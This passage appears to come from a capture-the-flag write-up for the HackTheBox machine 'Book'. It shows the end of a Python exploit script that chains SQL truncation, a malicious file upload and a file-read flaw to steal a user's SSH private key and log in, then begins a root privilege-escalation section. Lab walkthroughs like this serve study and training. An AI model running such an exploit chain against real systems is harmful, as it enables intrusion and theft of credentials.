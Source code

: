 ```py
    os.system('rm 1.html')
    print("[+] Great, done!! [+]")

def readFileLFI(rhost):
    print("[+] Let's read and save the ssh key !!! [+]")
    # Login on admin panel
    url = "http://%s:80/admin/" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    # Now, let's donwload and parse the pdf
    url = "http://%s/admin/collections.php?type=collections" %rhost
    resp = r.get(url, cookies=r.cookies, proxies=proxies)
    pdf = parser.from_buffer(resp.content)
    pdf = pdf['content'].strip()
    pdf = re.sub('[ \t]+', ' ',pdf)
    print("[+] Done! Now Let's connect!!!! [+]")
    ssh_key = '/tmp/rsa_key'
    f = open(ssh_key, 'a'); f.write(pdf); f.close()
    os.system('chmod 400 /tmp/rsa_key')
    os.system('sleep 3')
    os.system('ssh -i /tmp/rsa_key reader@%s' %rhost)


def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    file = '/home/reader/.ssh/id_rsa'

    '''Here we call the functions'''
    # Let's trigger the SQL Truncation
    adminBook(rhost)
    # Let's upload the malicious file
    loginAdminUpload(rhost,file)
    # Let's read the file
    readFileLFI(rhost)

if __name__ == '__main__':
    main()
```

# reader -> root

Now let's start our privilege escalation to root

The first thing we run [pspy](https://github.com/DominicBreuker/pspy), because we noticed a `backups` folder on the reader's home directory which calls our attention
